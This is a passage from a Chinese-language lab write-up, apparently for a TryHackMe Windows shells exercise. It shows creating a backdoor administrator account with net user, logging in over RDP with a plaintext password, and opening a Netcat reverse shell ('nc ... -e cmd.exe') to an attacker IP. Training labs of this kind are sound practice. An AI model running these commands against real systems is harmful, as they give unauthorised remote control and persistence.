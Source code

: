 ![image-20221008115356479](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008115356479.png)

成功建立反向shell：

![image-20221008115444121](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008115444121.png)

#### **操作六**

要求：网络服务器正在使用 SYSTEM特权运行，现在请创建一个新用户并将其添加到“管理员”组，然后通过 RDP 或 WinRM 实现用户登录。

添加新用户及将其添加到管理员组（利用上一个操作中获取的shell）：

```powershell
net user test test123 /add               #添加新用户
net localgroup administrators test /add  #添加用户到管理员组
```

![image-20221008120631937](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008120631937.png)

通过RDP实现新用户的登录（在攻击机上开一个终端执行命令）：

```shell
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.98.5 /u:test /p:'test123'    #添加剪切板功能
```

![image-20221008124829609](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008124829609.png)

![image-20221008124945300](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008124945300.png)

#### **操作七**

要求：尝试使用 socat 和 netcat 在 Windows 目标上获得反向和绑定 shell。

目标机ip：10.10.98.5

攻击机ip：10.10.44.92

**Netcat反向shell**

在攻击者终端:

```shell
nc -lvnp 12345
```

![image-20221008130201266](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008130201266.png)

然后使用 RDP 登录到目标&#x7684;_&#x7BA1;理员账户_，并在 cmd 上输入以下内容:`nc 10.10.44.92 12345 -e"cmd.exe"`

```shell
#使用攻击机终端 通过RDP登录到目标系统的管理员账户
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.98.5 /u:Administrator /p:'TryH4ckM3!'
```

![image-20221008130408806](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008130408806.png)

成功建立netcat反向shell：
